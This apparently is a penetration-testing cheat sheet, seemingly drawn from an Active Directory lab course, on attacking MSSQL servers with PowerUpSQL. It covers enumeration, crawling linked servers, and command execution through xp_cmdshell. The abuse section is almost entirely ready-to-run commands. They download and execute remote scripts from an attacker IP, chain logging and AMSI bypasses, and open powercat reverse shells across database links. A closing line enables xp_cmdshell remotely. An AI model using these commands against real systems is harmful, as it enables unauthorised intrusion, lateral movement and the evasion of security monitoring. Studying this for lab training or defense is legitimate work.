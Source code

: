# MSSQL Servers

## Tools

[PowerUpSQL ](https://github.com/NetSPI/PowerUpSQL)includes functions that support SQL Server discovery, weak configuration auditing, privilege escalation on scale, and post exploitation actions such as OS command execution.

{% embed url="https://github.com/NetSPI/PowerUpSQL" %}

## Enumeration

```powershell
# SPN
Get-SQLInstanceDomain

# Check Access
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded 

# Information
Get-SQLInstanceDomain | Get-SQLServerInfo
```

### Database Links

A database link allows a SQL Server to access external data sources like other SQL Servers and Data Source Objects (OLE DB).

In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures even across forest trusts.

<pre class="language-powershell"><code class="lang-powershell"><strong># find links to remote machine
</strong>Get-SQLServerLink -Instance dcorp-mssql
# Using HeidiSQL
select * from master..sysservers

# database links
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
# Using HeidiSQL 
select * from openquery("DCORP-SQL1", 'select * from openquery("DCORP-MGMT",''select * from master..sysservers'')')


</code></pre>

## Abuse

We can use links to execute commands across database links where Sysadmin set to 1

```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'" -QueryTarget eu-sql
# Using HeidiSQL 
SELECT *
FROM OPENQUERY("dcorp-sql1", '
    SELECT * 
    FROM OPENQUERY("dcorp-mgmt", ''
       SELECT *
       FROM OPENQUERY("EU-SQL32.EU.EUROCORP.LOCAL",''''
           SELECT @@version AS version;
           EXEC master..xp_cmdshell "powershell iex (iwr http://172.16.100.83/powercat.ps1 -UseBasicParsing)";
       '''') 
    '')
')


# revshell example
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.100.x/loggingbypass.txt);iex (iwr -UseBasicParsing http://172.16.100.x/amsibypass.txt);iex (iwr -UseBasicParsing http://172.16.100.x/powercat.ps1);powercat -c 172.16.100.x -p 443 -e powershell"''' -QueryTarget eu-sql32
# OR Normally like below
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.100.x/loggingbypass.txt);iex (iwr -UseBasicParsing http://172.16.100.x/amsibypass.txt); iex(iwr -UseBasicParsing http://172.16.100.x/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget eu-sql32

```

In case that `rpcout` is enabled (disabled by default), xp\_cmdshell can be enabled using:

```sql
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"
```
